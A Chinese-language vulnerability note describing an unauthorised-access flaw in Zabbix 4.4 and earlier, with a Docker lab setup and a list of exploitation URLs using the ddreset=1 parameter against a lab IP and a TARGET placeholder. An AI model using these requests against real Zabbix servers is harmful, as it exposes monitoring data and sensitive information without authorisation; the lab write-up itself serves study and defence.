



# Zabbix未授权访问漏洞

## 漏洞描述

Zabbix存在一个未授权访问漏洞，通过该漏洞，攻击者可以在未经授权的情况下访问Zabbix服务器上的数据，导致敏感信息泄露。

## **影响版本**

Zabbix <= 4.4

## 环境搭建

```
docker run -p 10051:10051  -p 80:80 zabbix/zabbix-appliance:ubuntu-4.0.12
```

## 漏洞利用

访问：http://192.168.32.183/zabbix.php?action=problem.view&ddreset=1



访问：http://192.168.32.183/overview.php?ddreset=1



访问：http://192.168.32.183/latest.php?ddreset=1



还有以下链接可以访问：

- https://TARGET/zabbix/zabbix.php?action=dashboard.view
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&ddreset=1
- https://TARGET/zabbix/zabbix.php?action=problem.view&ddreset=1
- https://TARGET/zabbix/overview.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=web.view&ddreset=1
- https://TARGET/zabbix/latest.php?ddreset=1
- https://TARGET/zabbix/charts.php?ddreset=1
- https://TARGET/zabbix/screens.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=map.view&ddreset=1
- https://TARGET/zabbix/srv_status.php?ddreset=1
- https://TARGET/zabbix/hostinventoriesoverview.php?ddreset=1
- https://TARGET/zabbix/hostinventories.php?ddreset=1
- https://TARGET/zabbix/report2.php?ddreset=1
- https://TARGET/zabbix/toptriggers.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=dashboard.list
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&dashboardid=1

